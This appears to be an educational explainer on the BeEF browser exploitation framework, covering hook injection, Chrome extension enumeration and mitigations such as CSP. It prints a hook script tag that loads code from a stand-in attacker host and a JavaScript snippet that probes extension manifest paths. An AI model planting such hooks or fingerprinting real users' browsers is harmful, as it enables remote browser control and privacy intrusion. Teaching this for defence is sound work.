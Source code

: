 ## BeEF (Browser Exploitation Framework)
BeEF (Browser Exploitation Framework) is **a penetration testing tool that focuses on browser vulnerabilities and client-side exploitation**. It is often used to assess the security posture of web browsers and applications. A BeEF hook enables an attacker to control and manipulate a hooked browser remotely after the victim visits a malicious or compromised web page.

## 1. What is a BeEF Hook?
  - Hook: **The BeEF hook is a JavaScript payload that is injected into the victim’s browser**.
  - Once hooked, the browser connects back to the attacker’s BeEF server, allowing the attacker to execute commands and gather information.
  - The hook is typically inserted
    - By embedding a \<script> tag into a compromised webpage.
    - Through XSS (Cross-Site Scripting) vulnerabilities.
    - Via social engineering (e.g., phishing pages).

### Basic Example of a Hook Script
```
<script src="http://attacker.com/hook.js"></script>
```
When the victim loads this script, the browser gets “hooked,” and the attacker gains control.


## 2. Extracting Information About Chrome Extensions
Once a browser is hooked using BeEF, the **attacker can gather various details, including Chrome extension information**. This is particularly concerning because browser extensions may contain sensitive data, such as:
  - User data stored by the extensions.
  - Extension names and IDs.
  - Behavioral insights (e.g., installed security tools).

## 3. Method of Getting Chrome Extension Information
  - BeEF uses JavaScript running in the context of the victim’s browser to enumerate the URLs and structure associated with Chrome extensions.

### How Chrome Extensions Work
- Chrome extensions are installed in the browser and are typically loaded as a Chrome extension URL.
- Example of a Chrome extension URL:
```
chrome-extension://<extension-id>/<file-path>
```

### Enumeration of Chrome Extensions
1. The attacker uses the BeEF framework to inject code that attempts to load resources from common extension paths.
2. By observing errors or successful loads, the attacker can infer which extensions are installed.


## 4. Example BeEF Module: Enumerating Extensions
Using BeEF, an attacker can leverage the “Get Chrome Extensions” module, which attempts to detect popular Chrome extensions by loading known resource paths.

### Example Code to Enumerate Extensions
```
var extensionIds = [
  "aapocclcgogkmnckokdopfmhonfmgoek", // Example extension ID
  "mhjfbmdgcfjbbpaeojofohoefgiehjai"  // Another example
];

extensionIds.forEach(function(id) {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "chrome-extension://" + id + "/manifest.json", true);
  xhr.onreadystatechange = function() {
    if (xhr.readyState == 4) {
      if (xhr.status == 200) {
        console.log("Extension Found: " + id);
      }
    }
  };
  xhr.send();
});
```

### How It Works
1. The script checks known Chrome extension URLs (e.g., /manifest.json).
2. If the request succeeds (200 OK), it confirms the extension is installed.
3. The results are sent back to the BeEF control server.


## 5. Practical Implications
  - **Privacy Concerns**
    - Extensions like password managers, ad blockers, and VPNs can be detected, compromising user privacy.
  - **Targeted Attacks**
    - Knowing which security extensions are installed allows attackers to craft targeted exploits.
  - **Security Bypasses**
    - Attackers can identify and disable security-focused extensions using further social engineering or browser vulnerabilities.

## 6. Prevention and Mitigation
1. **Avoid Untrusted Websites**
  - Do not visit untrusted or malicious sites where the BeEF hook script could be embedded.
2. **Secure Against XSS**
  - Ensure web applications are free of XSS vulnerabilities to prevent BeEF hooks.
3. **Limit Permissions for Extensions**
  - Install extensions only from trusted sources and review their permissions.
4. **Use Content Security Policy (CSP)**
  - A strict CSP can block untrusted scripts, including BeEF hooks.
5. **Browser Security Tools**
  - Use browser settings and extensions that restrict JavaScript execution on untrusted sites.
6. **Monitor Browser Behavior**
  - Regularly check for unusual network connections or JavaScript activity.

## 7. Summary

| Aspect | Details |
| ------ | ------- |
| What is BeEF? | A browser exploitation framework for assessing browser security. |
| What is a Hook? | A malicious JavaScript payload that connects a victim’s browser to BeEF. |
| Chrome Extensions | BeEF can enumerate installed Chrome extensions by checking known paths. |
| Exploitation Method | Requests are sent to chrome-extension://<id> paths like /manifest.json. |
| Implications | Privacy exposure, targeted attacks, and bypassing security extensions. |
| Mitigation | Avoid untrusted sites, patch XSS, enforce CSP, and limit extension usage. |


**The BeEF hook is a powerful tool for browser exploitation, enabling attackers to enumerate Chrome extensions and gather critical information**. By understanding how BeEF works and employing strong web security practices—like input sanitization, CSP policies, and careful use of extensions—users and developers can defend against these attacks.